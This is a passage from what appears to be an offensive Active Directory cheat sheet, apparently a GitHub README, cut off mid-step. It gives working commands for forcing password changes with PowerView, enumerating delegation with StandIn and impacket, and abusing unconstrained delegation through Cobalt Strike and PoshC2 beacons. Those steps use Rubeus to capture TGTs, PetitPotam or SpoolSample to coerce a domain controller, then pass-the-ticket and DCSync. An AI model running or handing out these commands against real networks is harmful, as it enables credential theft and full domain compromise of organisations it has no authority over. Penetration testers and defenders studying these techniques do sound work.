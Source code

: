 - ReadLAPSPassword: Check "Abusing Local Administrator Password Management Solution \(LAPS\)" section for exploitation steps\.
- ReadGMSAPassword: Check "Attacking AD Group Managed Service Accounts \(gMTA\)" section for exploitation steps\. 
- ForceChangePassword: Change the password of the user it applies to \(PowerView\): `$NewPassword = ConvertTo-SecureString '<Password to set>' -AsPlainText -Force; Set-DomainUserPassword -Identity '<TargetUser>' -AccountPassword $NewPassword`


---
### __Delegation abuse:__
#### _Delegation enumeration:_
List all accounts with unconstrained & constrained delegation privileges: 
- \([StandIn](https://github.com/FuzzySecurity/StandIn)\): `Standin.exe --delegation`
- \([impacket](https://github.com/SecureAuthCorp/impacket)\): `impacket-findDelegation <FQDN>/<username>(:password) -dc-ip <target DC ip or FQDN>`

#### _Unconstrained Delegation abuse:_
Whenever a request is made on an Unconstrained Delegation \(UD\) enabled computer, a copy of that account's TGT is stored in LSASS\. Because the TGT and not the TGS is stored, it is possible to use the ticket to impersonate the account who made the request as long this account is not in the “Protected Users” group or configured as “Account is sensitive and cannot be delegated”\.
>It is mandatory to have full control over the for Unconstrained Delegation enabled computer\. 
- From Cobalt Strike beacon (this requires a beacon running with high integrity):
	- 1\. Start the Rubeus monitoring function to capture any stored TGTs: `Rubeus.exe monitor /interval:5 /nowrap (/runfor:60) (/consoleoutfile:"C:\users\public\documents\r.log")`
	- 2\. In the second \(low integrity\) beacon use any technique that can either coerce another high value computer \(e\.g\. via PetitPotam\)  or social engineer a high value user to make a connection to the UD enabled computer\. 
	- 3\. After a successvol capture, stop Rubeus: `jobkill <JID>`
	- 4\. Copy the TGT from the output or saved r\.log file and save it locally on the CS client attacker system \(PS\): `[System.IO.File]::WriteAllBytes("C:\Secrets\ticket.kirbi", [System.Convert]::FromBase64String("<base64 TGT string>"))`
	- 5\. Create a sacrificial logon session \(make sure you are in a global writeable directory\): `make_token <domain>\<captured account name> DummyPass`
	- 6\. Pass the TGT into the new session to use it: `kerberos_ticket_use C:\Secrets\ticket.kirbi `
- From PoshC2 beacon (this attack vector requires 2 beacons of which at least 1 is a high integrity beacon running on the UD enabled computer\. Important, the high integrity beacon will die during this attack so it is advised to have a back\-up beacon established on the UD enabled system\. Furthermore, don’t run/test the DCSync command before you imported the ticket or any further action is ruined\.):
	- 1\. In the high integrity beacon, load Rubeus \(make sure it is atleast Rubeus version 1\.6\.4\) \(run in PoshC2\): `loadmodule Rubeus.exe`
	- 2\. In the same high integrity beacon start the Rubeus monitoring function to capture any stored TGTs \(the session will die after this command is finished\): `run-exe-background Rubeus.Program Rubeus monitor /monitorinterval:2 /runfor:40 /nowrap /consoleoutfile:"C:\users\public\documents\r.log"`
	- 3\. In the second \(low integrity\) beacon use any technique \(e\.g\. PetitPotam, Spoolsample\) that will cource a DC to make a request to the UD enabled computer \(check "Coerce target computer to start authenticate to arbitrary sytem" section for the PS tools and commands\)\. 
	- 4\. After Rubeus stopped running \(after 40 sec\), it is possible to read the TGT of the coerced DC in the file r\.log: `type C:\users\public\documents\r.log`
	- 5\. Copy the base64 encoded ticket string from the r\.log file and import the ticket into an arbitrary beacon and impersonate the DC: `rubeus ptt /ticket:<ticker string>`
	- 6\. It is now possible to perform action like DCSync \(make sure the command is correct the first time you run it\)
- Remote from attacker system (this attack vector is performed remotely and leverages DNS spoofing in combination with a coerce attack \(PetitPotam, Spoolsample\) in an attempt to capture a high value computer account TGT\.): 
	- 1\. If you don’t have the plaintext password of the UD enabled system, dump LSASS to obtain both the NTLM hash and AES\-256 key: